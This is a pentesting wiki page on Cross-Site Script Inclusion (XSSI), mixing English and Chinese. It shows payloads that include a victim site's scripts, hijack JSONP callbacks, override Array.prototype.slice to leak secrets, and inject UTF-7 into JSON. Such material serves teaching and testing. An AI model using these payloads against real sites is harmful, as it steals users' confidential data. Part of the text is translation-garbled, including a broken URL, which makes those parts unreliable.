 # XSSI (Cross-Site Script Inclusion)

#### The information was taken from [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)

## Basic Information

XSSI 漏洞，它利用以下情况：当使用 `script` 标签包含资源时，同源策略（SOP） 将再不适用，因为脚本必须能够跨域包含。因此，攻击者可以读取使用 `script` 标签包含的所有内容。

当涉及到动态 JavaScript 或 JSONP 时，当所谓的环境权限信息（如 cookie）用于身份验证时，这一点尤其有趣。当从不同的主机请求资源时会包含 cookie。

### Types

1. Static JavaScript (regular XSSI)
2. Static JavaScript, which is only accessible when authenticated
3. Dynamic JavaScript
4. Non-JavaScript

## 常规的 XSSI

私有信息位于全局可访问的 JS 文件中，您可以通过读取文件、搜索关键字或使用正则表达式来检测它。\
要利用这一点，只需在恶意内容中包含带有私人信息的脚本：

```markup
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```

## Dynamic-JavaScript-based-XSSI and  Authenticated-JavaScript-XSSI

**Confidential【机密】 information is added to the script when a user requests it**. This can be easily discovered by sending the request **with and without the cookies**, if **different information** is retrieved, then confidential information could be contained. To do this automatically you can use burp extension: [https://github.com/luh2/DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

如果信息位于全局变量中，您可以使用与前一种情况相同的代码来利用它。\
如果机密数据在 JSONP 响应中发送，您可以重写执行的函数来检索信息：

```markup
<script>
      //The confidential info will be inside the callback to angular.callbacks._7: angular.callbacks._7({"status":STATUS,"body":{"demographics":{"email":......}}})
      var angular = function () { return 1; };
      angular.callbacks = function () { return 1; };      
      angular.callbacks._7 = function (leaked) {
	  alert(JSON.stringify(leaked));
      };  
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

Or you could also set a prepared function to be executed by the JSONP response:

```markup
<script>
      leak = function (leaked) {
	  alert(JSON.stringify(leaked));
      };  
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```


如果变量不在全局命名空间内，有时可以使用 _prototype tampering_ 来利用它。原型篡改滥用了 JavaScript 的设计，即在解释代码时，JavaScript 会遍历原型链找到被调用的属性。以下示例摘自论文 [The Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf) 并演示了如何覆盖相关函数`Array` 类型和对 `this` 的访问，非全局变量也可能被泄露。
 
```javascript
(function(){
  var arr = ["secret1", "secret2", "secret3"];
  // intents to slice out first entry
  var x = arr.slice(1);
  ...
})();
```

在原始代码中，`Array` 类型的`slice` 访问我们感兴趣的数据。如前文所述，攻击者可以覆盖`slice` 并窃取机密。

```javascript
Array.prototype.slice = function(){
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this);
};
```

Security Researcher [Sebastian Lekies](https://twitter.com/slekies) just recently updated his list of [vectors](http://sebastian-lekies.de/leak/).

## &#x20;Non-Script-XSSI

Takeshi Terada 在他的论文 [基于标识符的 XSSI 攻击] (https://www.mbsd.jp/Whitepaper/xssi.pdf) 中描述了另一种 XSSI。他能够通过在 `script` 标签中包含 CSV 文件作为源，使用数据作为变量和函数名称来跨源泄漏非脚本文件。

第一次公开记录的 XSSI 攻击是在 2006 年。Jeremiah Grossman 的博客文章 [使用 GMail 的高级 Web 攻击技术](http://jeremiahgrossman.blogspot.ch/2006/01/advanced-web-attack-techniques-using.html) 描述了一个 XSSI，它通过覆盖 `Array` 构造函数能够读取 google 帐户的完整地址簿。

2007 年 Joe Walker 发表了 [JSON 不像人们想象的那样安全](http://incompleteness.me/blog/2007/03/05/json-is-not-as-safe-as-people-think-它是/）。他使用相同的想法来窃取 `Array` 中的 JSON。

Other related attacks were conducted【实施】 by injecting UTF-7 encoded content into the JSON to escape the JSON format. It is described by Gareth Heyes, author of [Hackvertor](https://hackvertor.co.uk/public), in the blog entry [JSON Hijacking](http://www.thespanner.co.uk/2011/05/30/json-hijacking/) released in 2011. In a quick test, this was still possible in Microsoft Internet Explorer and Edge, but not in Mozilla Firefox or Google Chrome.

JSON with UTF-7:

```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

Including the JSON in the attacker’s page

```markup
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
